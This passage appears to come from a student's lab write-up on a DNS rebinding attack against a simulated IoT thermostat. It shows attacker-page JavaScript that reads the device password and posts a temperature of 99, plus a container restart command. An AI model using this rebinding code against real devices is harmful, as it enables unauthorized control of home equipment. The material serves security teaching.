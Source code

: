 ### Step 1: Modifying the JavaScript code

The first step is to change the JavaScript code running inside the `www.attacker32.com/change` page, which is located in the attacker's web server container. Since this page comes from the `www.attacker32.com` server, according to the same-origin policy, it can only interact with the same server. Therefore, we need to change the *url_prefix* variable that is being used to make the request, so that the origin is the same server. 

```js
let url_prefix = 'http://www.attacker32.com'// previously http://www.seediot32.com

function updateTemperature() {
  $.get(url_prefix + '/password', function(data) {
  $.post(url_prefix + '/temperature?value=99'  
               + '&password='+ data.password, 
               function(data) {
                  console.debug('Got a response from the server!');
               });
  });
}
```

After making this change we need to restart the attacker's web server container by doing:

```
$ docker container restart attacker-ns-10.9.0.153
```

Then, if we click the button on the attacker's page again, we don't get the same error anymore since the origin is now the same. However, we get a new error: *METHOD NOT ALLOWED*. This is expected since the requests are being sent back to the attacker's web server which does not support these methods.

<figure align="center">
  <img src="images/img7.png" alt="my alt text"/>
  <figcaption style="text-align: center;">Figure 7. Method Not Allowed error</figcaption>
</figure>
